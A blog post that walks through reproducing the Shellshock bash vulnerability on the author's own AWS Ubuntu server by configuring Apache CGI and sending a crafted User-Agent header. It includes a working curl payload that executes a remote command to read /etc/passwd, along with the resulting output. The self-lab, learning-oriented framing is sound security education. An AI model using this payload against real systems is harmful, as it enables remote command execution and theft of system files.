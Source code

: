 ```yaml
---
layout: post
title: Shellshock DIY
tags: aws apache bash
username: akenn
---
```


When [news of Shellshock first broke](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271), the main vector of attack was any application running on an Apache server via CGI. I don't run any Apache servers anymore, and if I did I probably wouldn't be running them with CGI (just not my preference). However, I wanted to try this bug out and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

Without further ado, let's hack ourselves!

First we'll go create an EC2 instance on AWS. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running we'll SSH into it and check if the default version of Bash is vulnerable.

{% highlight bash %}
$ ssh -l ubuntu [Your IP address] -i ~/.ssh/shellshock.pem
$ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(**Note:** I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If Bash is already patched on your machine, my next suggestion is to find a Vagrant image that isn't patched yet. If you can't, leave a comment below. I can post a tutorial on how to compile an old, vulnerable version of Bash and replace the patched one on your box; for science!) 

Ok next step: Installing Apache and configuring it to use CGI.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

That was easy. We need to tell Apache when to use CGI. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight apache %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}

The complete Apache configuration file for the virtual host we'll be using looks like this:

{% highlight apache %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}

Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight bash %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

**Note:** The contents of this file can be anything, as can the filename. In our case the file just needs to exist. I chose to copy the Bash script above from [https://www.invisiblethreat.ca/2014/09/cve-2014-6271/](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/) because it's an easy way to check that apache is configured correctly.

**Additional Note:** You may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart Apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}

If everything went according to plan, we should be able to run this script via CGI and have the result returned to us. Let's see if that works:

{% highlight bash %}
~
❯ curl http://[Your IP Address]/cgi-bin/poc.cgi
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.4.7 (Ubuntu) Server at [Your IP Address] Port 80</address>

HTTP_USER_AGENT=curl/7.30.0
SERVER_PORT=80
HTTP_HOST=[Your IP Address]
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/poc.cgi
REQUEST_URI=/cgi-bin/poc.cgi
SCRIPT_NAME=/cgi-bin/poc.cgi
REMOTE_PORT=34236
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_ACCEPT=*/*
REMOTE_ADDR=[Remote IP Address]
SHLVL=1
SERVER_NAME=
SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.0.0.153
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
_=/usr/bin/env
</pre>
</body>
</html>
{% endhighlight %}

Awesome! Now that everything is set up, let's exploit ourselves.

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Great success! We were successfully able to run an arbitrary code execution exploit on a remote machine (that we own).

Now go patch Bash!

Resources and helpful links:

- [How to Protect your Server Against the Shellshock Bash Vulnerability](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)
- [Everything you need to know about the Shellshock Bash bug](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)
- [CVE-2014-6271: BASH LETS YOU DO BAD THINGS. (SHELLSHOCK)](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/)
- [How do I secure Apache against the Bash Shellshock vulnerability?](http://security.stackexchange.com/questions/68146/how-do-i-secure-apache-against-the-bash-shellshock-vulnerability)
- [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)
- [Bash – ShellShocker – Attacks Increase in the Wild – Day 1](http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html)